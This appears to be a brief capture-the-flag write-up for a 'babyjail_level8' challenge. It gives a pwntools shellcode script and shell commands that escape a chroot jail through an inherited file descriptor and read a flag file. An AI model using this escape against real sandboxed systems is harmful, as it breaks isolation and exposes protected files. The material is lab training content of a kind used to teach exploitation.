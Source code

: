 get file descriptor from parent process.
shell code:   
```
#!/usr/bin/python3
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=shellcraft.openat(3, "../../flag")
shellcode+=shellcraft.read(4, 0x13373e8, 0x100)
shellcode+=shellcraft.write(1, 0x13373e8, 0x100)
shellcode+=shellcraft.exit()
shellcode=asm(shellcode)
sys.stdout.buffer.write(shellcode)
```
in shell:   
`./l8bak.py | /challenge/babyjail_level8 3</`  
or    
```
exec 3</
./l8bak.py | /challenge/babyjail_level8
```
